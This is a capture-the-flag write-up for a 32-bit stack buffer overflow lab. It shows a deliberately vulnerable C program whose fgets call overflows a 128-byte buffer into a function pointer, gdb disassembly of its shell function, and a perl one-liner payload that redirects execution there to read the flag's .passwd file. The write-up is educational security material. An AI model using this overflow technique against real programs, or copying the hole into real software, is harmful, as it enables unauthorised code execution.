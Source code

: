 ## ELF32 - Stack buffer overflow basic 2

| Author | Level | Points |
| ------ | ----- | ------ |
| Lyes | Very Easy | 10 |

> An intermediate level to familiarize yourself with stack overflows
>
><b> Statement </b> <br />
>Environment configuration : 
> * [ ] Postion Independent Executable 
> * [ ] Read Only relocations
> * [x] Non-Executable Stack 
> * [x] Non-Executable Heap 
> * [ ] Address Space Layout Randomisation 
> * [ ] Source Fortification 
> * [x] Source code access
>
>Source code :
>
>```c
>/*
>gcc -m32 -fno-stack-protector -o ch15 ch15.c
>*/
> 
>#include <stdio.h>
>#include <stdlib.h>
> 
>void shell() {
>    system("/bin/dash");
>}
> 
>void sup() {
>    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
>}
> 
>main()
>{ 
>    int var;
>    void (*func)()=sup;
>    char buf[128];
>    fgets(buf,133,stdin);
>    func();
>}
```

#### Solution

First, find address of `shell` function

```
gdb-peda$ pdisas shell
Dump of assembler code for function shell:
   0x08048464 <+0>:     push   ebp
   0x08048465 <+1>:     mov    ebp,esp
   0x08048467 <+3>:     sub    esp,0x18
   0x0804846a <+6>:     mov    DWORD PTR [esp],0x80485a0
   0x08048471 <+13>:    call   0x8048380 <system@plt>
   0x08048476 <+18>:    leave
   0x08048477 <+19>:    ret

End of assembler dump.
```

Then, we know `shell` function started from `0x08048464` and get the flag with

```
(perl -e 'print "a"x128 . "\x64\x84\x04\x08";'; echo 'cat .passwd') | ./ch15
```
